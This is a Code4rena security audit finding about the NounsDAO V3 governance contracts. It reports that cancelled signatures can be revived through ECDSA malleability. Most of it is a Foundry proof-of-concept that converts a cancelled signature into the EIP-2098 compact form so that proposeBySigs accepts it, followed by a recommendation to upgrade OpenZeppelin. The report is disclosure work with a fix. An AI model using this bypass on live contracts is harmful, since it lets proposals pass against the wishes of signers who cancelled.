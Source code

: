 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- grade-b
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-01

# [cancelSig will not completely cancel signatures due to malleability vulnerabilities](https://github.com/code-423n4/2023-07-nounsdao-findings/issues/198) 

# Lines of code

https://github.com/nounsDAO/nouns-monorepo/blob/718211e063d511eeda1084710f6a682955e80dcb/packages/nouns-contracts/contracts/governance/NounsDAOV3Proposals.sol#L270-L275
https://github.com/nounsDAO/nouns-monorepo/blob/718211e063d511eeda1084710f6a682955e80dcb/packages/nouns-contracts/contracts/governance/NounsDAOV3Proposals.sol#L983


# Vulnerability details

## Impact

The current version of openzeppelin contracts has a high risk of vulnerability about signature malleability attack: https://github.com/OpenZeppelin/openzeppelin-contracts/pull/3610.
So if the signer only cancel one signature, the malicious proposer can still extend a fully valid signature through the previous signature to pass the proposal.

## Proof of Concept

```solidity
// CancelProposalBySigs.t.sol
contract TestSignatureMalleabilityAttack is ZeroState {
    function setUp() public virtual override {
        super.setUp();

        (signerWithVote, signerWithVotePK) = makeAddrAndKey('signerWithVote');

        vm.startPrank(minter);
        nounsToken.mint();
        nounsToken.transferFrom(minter, signerWithVote, 1);
        vm.roll(block.number + 1);
        vm.stopPrank();

        NounsDAOV3Proposals.ProposalTxs memory txs = makeTxs(makeAddr('target'), 0, '', '');
        uint256 expirationTimestamp = block.timestamp + 1234;
        NounsDAOStorageV3.ProposerSignature[] memory proposerSignatures = new NounsDAOStorageV3.ProposerSignature[](1);
        bytes memory signature = signProposal(proposer, signerWithVotePK, txs, 'description', expirationTimestamp, address(dao));
        vm.prank(signerWithVote);
        dao.cancelSig(signature);

        proposerSignatures[0] = NounsDAOStorageV3.ProposerSignature(
            signature,
            signerWithVote,
            expirationTimestamp
        );
        vm.expectRevert(abi.encodeWithSelector(NounsDAOV3Proposals.SignatureIsCancelled.selector));
        vm.prank(proposer);
        proposalId = dao.proposeBySigs(
            proposerSignatures,
            txs.targets,
            txs.values,
            txs.signatures,
            txs.calldatas,
            'description'
        );

        proposerSignatures[0] = NounsDAOStorageV3.ProposerSignature(
            to2098Format(signature),
            signerWithVote,
            expirationTimestamp
        );
        vm.prank(proposer);
        proposalId = dao.proposeBySigs(
            proposerSignatures,
            txs.targets,
            txs.values,
            txs.signatures,
            txs.calldatas,
            'description'
        );

        vm.roll(block.number + 1);

        assertEq(uint256(dao.state(proposalId)), uint256(NounsDAOStorageV3.ProposalState.Updatable));
    }

    // Copy from https://github.com/pcaversaccio/malleable-signatures/blob/1f618f556c0af48c44d27c7dbf1f97dc898ceda9/test/SignatureMalleability.t.sol#L78
    error InvalidSignatureLength();
    error InvalidSignatureSValue();
    function to2098Format(bytes memory signature) internal view returns (bytes memory) {
        if (signature.length != 65) revert InvalidSignatureLength();
        if (uint8(signature[32]) >> 7 == 1) revert InvalidSignatureSValue();
        bytes memory short = slice(signature, 0, 64);
        uint8 parityBit = uint8(short[32]) | ((uint8(signature[64]) % 27) << 7);
        short[32] = bytes1(parityBit);
        return short;
    }

    // Copy from https://github.com/GNSPS/solidity-bytes-utils/blob/6458fb2780a3092bc756e737f246be1de6d3d362/contracts/BytesLib.sol#L228
    function slice(
        bytes memory _bytes,
        uint256 _start,
        uint256 _length
    )
        internal
        pure
        returns (bytes memory)
    {
        require(_length + 31 >= _length, "slice_overflow");
        require(_bytes.length >= _start + _length, "slice_outOfBounds");

        bytes memory tempBytes;

        assembly {
            switch iszero(_length)
            case 0 {
                // Get a location of some free memory and store it in tempBytes as
                // Solidity does for memory variables.
                tempBytes := mload(0x40)

                // The first word of the slice result is potentially a partial
                // word read from the original array. To read it, we calculate
                // the length of that partial word and start copying that many
                // bytes into the array. The first word we copy will start with
                // data we don't care about, but the last `lengthmod` bytes will
                // land at the beginning of the contents of the new array. When
                // we're done copying, we overwrite the full first word with
                // the actual length of the slice.
                let lengthmod := and(_length, 31)

                // The multiplication in the next line is necessary
                // because when slicing multiples of 32 bytes (lengthmod == 0)
                // the following copy loop was copying the origin's length
                // and then ending prematurely not copying everything it should.
                let mc := add(add(tempBytes, lengthmod), mul(0x20, iszero(lengthmod)))
                let end := add(mc, _length)

                for {
                    // The multiplication in the next line has the same exact purpose
                    // as the one above.
                    let cc := add(add(add(_bytes, lengthmod), mul(0x20, iszero(lengthmod))), _start)
                } lt(mc, end) {
                    mc := add(mc, 0x20)
                    cc := add(cc, 0x20)
                } {
                    mstore(mc, mload(cc))
                }

                mstore(tempBytes, _length)

                //update free-memory pointer
                //allocating the array padded to 32 bytes like the compiler does now
                mstore(0x40, and(add(mc, 31), not(31)))
            }
            //if we want a zero-length slice let's just return a zero-length array
            default {
                tempBytes := mload(0x40)
                //zero out the 32 bytes slice we are about to return
                //we need to do it because Solidity does not garbage collect
                mstore(tempBytes, 0)

                mstore(0x40, add(tempBytes, 0x20))
            }
        }

        return tempBytes;
    }

    function testAttack() public {}
}
```

```shell
forge test --match-test testAttack -vvvv --ffi
```

## Tools Used

Foundry

## Recommended Mitigation Steps

Update openzeppelin contracts to the new version


## Assessed type

Library